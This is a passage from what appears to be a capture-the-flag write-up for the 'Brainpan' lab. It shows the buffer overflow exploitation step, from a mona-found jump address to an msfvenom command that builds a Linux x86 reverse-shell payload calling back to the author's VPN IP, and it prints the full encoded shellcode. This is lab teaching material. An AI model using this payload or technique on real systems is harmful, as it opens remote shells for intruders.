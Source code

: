 ![](/assets/img/thm/linux/brainpan/mona-brainpan.png)

The address I got was `0x311712F3`.

### Step 5: Generating shellcode

To generate a shellcode we can use `msfvenom`:

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=$(vpnip) lport=4444 --format python --bad-chars "\x00" --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 550 bytes
shellcode =  b""
shellcode += b"\xba\x9d\x29\x7f\xfa\xdd\xc4\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x31\x50\x12\x03\x50\x12"
shellcode += b"\x83\x75\xd5\x9d\x0f\xb4\xfd\x95\x13\xe5\x42"
shellcode += b"\x09\xbe\x0b\xcc\x4c\x8e\x6d\x03\x0e\x7c\x28"
shellcode += b"\x2b\x30\x4e\x4a\x02\x36\xa9\x22\x9f\xc3\x6a"
shellcode += b"\x21\xf7\xd1\x6c\x54\x54\x5f\x8d\xe6\x02\x0f"
shellcode += b"\x1f\x55\x78\xac\x16\xb8\xb3\x33\x7a\x52\x22"
shellcode += b"\x1b\x08\xca\xd2\x4c\xc1\x68\x4a\x1a\xfe\x3e"
shellcode += b"\xdf\x95\xe0\x0e\xd4\x68\x62"
```

> **Note**: First I thought the target was a Windows machine and I used a `windows/shell_reverse_tcp` payload. Surprisingly, it worked and I got a Windows shell (`Z:\home\puck>`)...very weird! (need to figure out)
